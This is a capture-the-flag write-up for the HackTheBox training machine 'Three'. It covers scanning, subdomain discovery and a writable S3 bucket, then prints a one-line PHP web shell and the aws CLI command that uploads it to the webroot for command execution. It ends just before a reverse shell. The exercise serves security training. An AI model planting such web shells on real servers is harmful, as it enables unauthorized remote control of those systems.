 <h3> Starting Point HackTheBox </h3>

<h3> Machine name: Three  </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5a46f1d2-4fc7-4016-8806-53dc390637ee)

#### Task 1

- How many TCP ports are open? 

First Let's scan the target
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f557a092-18c1-43e1-93b8-3ae08d4e1cf5)

```
Answer: 2 
```

#### Task 2

- What is the domain of the email address provided in the "Contact" section of the website? 

Going over to the web page shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1862c530-cbbe-4c92-8859-67b02e424ac9)

Checking the *Contact* page shows this email address
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f64c39e0-6be7-4fa2-95f9-13f947ec6a2d)

We can see the domain name

```
Answer:  thetoppers.htb 
```

#### Task 3

-  In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? 

For this we need to edit our */etc/hosts* file so that it can resolve the hostname to ip address
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1738b417-0776-41c9-bd29-128f50127420)

```
Answer: /etc/hosts
```

#### Task 4

-  Which sub-domain is discovered during further enumeration? 

Let us fuzz for subdomain using *ffuf*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/41e96849-3940-48b5-a58a-2dcef10209c5)

We see that the result shows that the *s3* sub domain is up 

So i'll add *s3.thetoppers.htb* to my */etc/hosts* file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b82fc630-ff49-4e64-a81c-771ab1e7d7d0)

```
Answer: s3.thetoppers.htb
```

#### Task 5

-  Which service is running on the discovered sub-domain? 

Since we see the sub domain name looks interesting i'll search it up on google
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/49593313-c24d-434b-b3ea-0ecad5988ac5)

From the result we can tell the answer is *Amazon S3*

```
Answer: Amazon S3
```

#### Task 6

-  Which command line utility can be used to interact with the service running on the discovered sub-domain? 

Searching google for this gives the answer
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/aeb6d782-b0e8-4a9b-b51e-5b3f62821d59)

```
Answer: awscli
```

#### Task 7

-  Which command is used to set up the AWS CLI installation? 

I installed aws tool from [here](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)

So to set up aws we use *aws configure*

```
Answer: aws configure
```

#### Task 8

-  What is the command used by the above utility to list all of the S3 buckets? 

To list all of the S3 bucket we use:

```
Answer: aws s3 ls 
```

But doing that on the target shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a54c9cc6-889f-4e01-94b5-c5949b078d7e)

It is trying to access the main amazon aws endpoint

But we just need to reference it to the endpoint already give to us

So I did this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8538bce0-8639-4995-98b1-d70a61f9494d)

Cool we see the index.php & .htaccess file

#### Task 9

-  This server is configured to run files written in what web scripting language? 

Back to the web app 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9cadf238-ba5f-4053-aeb0-d301a22a451a)

Using *wappalyzer* shows the language of the web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/65f37845-2d21-4be1-8454-1bc5e5e1c944)

```
Answer: PHP
```

#### Task 10

- Submit the root flag

Since we know the aws allows write access we can put files to the aws

But let us first download the index.php file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0f9f6bbe-7c7f-449e-8597-7830753699d1)

Opening it shows it is the web root directory of the web server on port 80
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/71abc268-f1d7-4a7f-997a-bdea7cb5678e)

Cool. So this means we can upload our own file to the server

I created a file with this content names *shell.php*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6bf93190-efbe-4438-9498-6f0832c036cf)

```php
<?php system($_GET['cmd']); ?>
```

Now i uploaded it to the aws
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2c6aeb84-094f-4459-86df-76b02ca1f926)

```
aws s3 --endpoint http://s3.thetoppers.htb cp shell.php s3://thetoppers.htb/
```

Our shell is uploaded we can now access it from the web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/160695da-44ce-4075-b9a4-a9b232a2737b)

We are user *www-data* let's get a reverse shell
